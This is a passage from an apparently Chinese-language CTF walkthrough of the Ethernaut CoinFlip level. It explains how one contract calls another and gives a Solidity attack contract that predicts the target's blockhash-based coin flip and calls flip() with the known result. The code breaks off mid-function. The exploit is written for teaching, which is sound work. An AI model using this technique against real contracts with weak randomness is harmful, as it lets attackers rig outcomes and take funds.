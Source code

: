 ![实例创建合约内部调用](https://img-blog.csdnimg.cn/6b26254143f84e1e9a41d47ed5d2d756.png#pic_center)


下面就到了合约间调用的内容了，其主要有几种：
- 使用被调用合约实例（已知被调用合约代码）
- 使用被调用合约接口实例（仅知道被调用合约接口）
- 使用call命令调用合约

我们将编写自己的智能合约，从以上三个思路入手，实现合约间调用。

## 攻击合约编写
利用Remix在线编辑器编写合约，代码如下所示，其中`CoinFlipAttack`就是我们的攻击合约，而`CoinFlip`和`CoinFlipInterface`都是为目标合约提供abi接口而定义的：

```
pragma solidity ^0.6.0;

// 由于使用在线版本remix，所以需要
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v3.0.0/contracts/math/SafeMath.sol";

// 用于使用被调用合约实例（已知被调用合约代码）
contract CoinFlip {
// 复制本关卡代码，此处省略....
}

// 用于 使用被调用合约接口实例（仅知道被调用合约接口）
interface CoinFlipInterface {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipAttacker{
    
    using SafeMath for uint256;
    address private addr;
    CoinFlip cf_ins;
    CoinFlipInterface cf_interface;

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _addr) public {
        addr = _addr;
        cf_ins = CoinFlip(_addr);
        cf_interface = CoinFlipInterface(_addr);
    }

// 当用户发出请求时，合约在内部先自己做一次运算，得到结果，发起合约内部调用
    function getFlip() private returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;
        return side;
    }

// 使用被调用合约实例（已知被调用合约代码）
    function attackByIns() public {
        bool side = getFlip();
        cf_ins.flip(side);
    }

// 使用被调用合约接口实例（仅知道被调用合约接口）
    function attackByInterface() public {
        bool side = getFlip();
        cf_interface.flip(side);
```